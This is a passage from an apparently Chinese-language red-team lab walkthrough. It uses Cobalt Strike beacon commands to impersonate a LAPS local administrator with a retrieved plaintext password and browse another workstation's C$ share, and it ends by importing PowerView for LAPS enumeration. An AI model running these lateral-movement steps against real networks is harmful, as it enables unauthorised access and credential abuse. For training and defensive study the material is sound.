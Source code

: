 
ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : fk43i9785W8Cw5
ExpirationTimestamp : 8/28/2022 8:58:44 AM

```

1661472378476.png

但是在在WKSTN-1上make_token以后会报错，理论上应该也可以看到的，感觉lab不太稳定?

1661472458881.png


使用上面得到的计算机密码，make_token，访问目标计算机

```
beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 20 bytes
beacon> run hostname
[*] Tasked beacon to run: hostname
[+] host called home, sent: 38 bytes
[+] received output:
wkstn-1

beacon> ls \\wkstn-2\c$
[*] Tasked beacon to list files in \\wkstn-2\c$
[+] host called home, sent: 42 bytes
[-] could not open \\wkstn-2\c$\*: 5
beacon> make_token .\lapsadmin fk43i9785W8Cw5
[*] Tasked beacon to create a token for .\lapsadmin
[+] host called home, sent: 56 bytes
[+] Impersonated DEV\bfarmer
beacon> ls \\wkstn-2\c$
[*] Tasked beacon to list files in \\wkstn-2\c$
[+] host called home, sent: 42 bytes
[*] Listing: \\wkstn-2\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:35:19   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     01/20/2022 15:43:43   Program Files
          dir     02/16/2022 12:46:57   Program Files (x86)
          dir     08/17/2022 23:31:12   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 14:45:10   System Volume Information
          dir     05/05/2021 16:13:00   Users
          dir     08/13/2022 01:01:57   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     08/25/2022 23:21:22   pagefile.sys
```
1661472563036.png



假如不能使用LAPS的powershell工具集（假设本机未启用LAPS，当前用户也无权访问启用LAPS的机器），使用powershell在任何一台机器上可以起到与上面等价的枚举操作

```
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
[*] Tasked beacon to import: C:\Tools\PowerSploit\Recon\PowerView.ps1